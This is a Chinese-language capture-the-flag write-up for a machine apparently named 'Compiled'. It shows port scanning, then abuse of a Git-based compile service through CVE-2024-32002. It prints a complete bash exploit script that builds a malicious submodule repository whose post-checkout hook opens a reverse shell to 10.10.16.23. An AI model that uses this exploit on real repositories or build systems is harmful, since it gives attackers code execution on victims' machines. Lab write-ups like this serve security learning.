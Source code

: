 # Compiled



端口扫描

![image-20240730171605236](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730171605236.png)

![image-20240730171622618](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730171622618.png)

开放3000，5000端口

![image-20240731092231767](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731092231767.png)

![image-20240731092248053](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731092248053.png)



下面有个输入框，输入git项目地址会进行编译

![image-20240731092353083](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731092353083.png)

源码

![image-20240731092607672](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731092607672.png)

返回3000端口创建一个账户

![image-20240731092448639](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731092448639.png)



创建一个repository

![image-20240731092848437](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731092848437.png)

创建repository之后上传poc(https://github.com/safebuffer/CVE-2024-32002)

![image-20240731092951828](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731092951828.png)



bash脚本

```shell
#!/bin/bash

# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 


# Define the tell-tale path
tell_tale_path="$PWD/tell.tale"

# Initialize the hook repository
git init hook
cd hook
mkdir -p y/hooks

# Write the malicious code to a hook
cat > y/hooks/post-checkout <<EOF
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.23/1223 0>&1'

EOF

# Make the hook executable: important
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"

cd ..

# Define the hook repository path
hook_repo_path="$(pwd)/hook"

# Initialize the captain repository
git init captain
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# Create a symlink
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
cd ..

git clone --recursive captain hooked

```



修改脚本后提交

![image-20240731095722753](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731095722753.png)

到5000端口，将项目地址提交编译

![image-20240731095930857](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731095930857.png)

监听

![image-20240731100023733](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240731100023733.png)

